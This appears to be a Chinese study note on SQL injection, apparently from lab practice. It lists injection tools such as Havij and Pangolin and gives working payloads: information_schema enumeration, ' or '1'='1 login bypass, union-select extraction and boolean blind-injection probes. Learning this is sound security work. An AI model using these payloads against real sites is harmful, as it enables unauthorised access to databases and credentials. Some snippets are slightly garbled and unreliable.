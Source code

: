 #### ASP、JSP注入工具

- NBSI
- 阿D注入软件
- 明小子

#### PHP注入工具

- 穿山甲注入软件
- 海阳顶端注入软件

#### 安全专家用的注入工具

- BSQL Hacker（注入框架）
- The Mole（可攻击Mysql、SQL server、Postgres和oracle）
- Pangolin （白帽专用啊哈哈哈哈）
- sqlamp  （非常强大）
- Havij （可攻击Mysql、oracle、Postgres、MS Access）
- safe3 SQL Injector（简单易用）
- SQL Poizon

### 10. 笔记

- 爆SQL
  select schema_name from information_schema.schemata
  猜数据库
  select schema_name from information_schema.schemata limit 0,1 （limit第几行）
  test
- select table_name from information_schema.tables where table_schema='xxxxx'
  猜某库的数据表
- select column_name from information_schema.columns where table_name='xxxxx'
  猜某表的所有列
- select *** from ***
- 
- mid(a,b,c)从位置 b 开始，截取 a 字符串的 c 位
  ord 同ASCII
  substr（user(),2,1）
  substr（database(),2,1）从databases数据库名的第2位，截取长度为1
  Order by 对前面的数据进行排序
  information_schema 系统数据库名
  tables 表名
  information_schema.tables 查询这个数据库表
  table_schema 这个字段
  select table_name from information_schema.tables where table_schema = "security";
  select 列名称from表名 where列 运算符 值
  @$sql="SELECT username, password FROM users WHERE username='admin'or'1'='1# and
  password='$passwd' LIMIT 0,1";
  数据库运行的SQL语句代码如上:
  输入“ ‘后，注意 提示语法错误的 注明 ’ ” ）
  ') or '1'=('1' 
  ) or 1=1 -
  ') or 1=1 order by 2  查看几列
- 显示登录信息可以使用联合查询得到数据库名等信息
  uname=1admin'union select 1,database()-- -&passwd=&submit=Submit
  联合查询  得到  database(数据库名)
- 不显示登录信息使用 布尔型盲注
  uname=admin')and left(database(),1)>'a'#&passwd=1&submit=Submit
  database(),1表示第一位 >大于a        大于的话就返回true
  left(database(),1) ='s'    截取数据库名的前1位 
  left(database(),2) ='se'  截取数据库名的前2位 
  length(database())=8  查看数据库的长度
  left(version()1)=5    查看数据库第1位为5
  通过二分法 查到某位没有>,= a（或者数字）
  注释掉最后字符 -- - --+ # %23 （每个试）
- substr(database(),,c)从 b 位置开始，截取字符串 a 的 c 长度。Ascii()将某个字符转换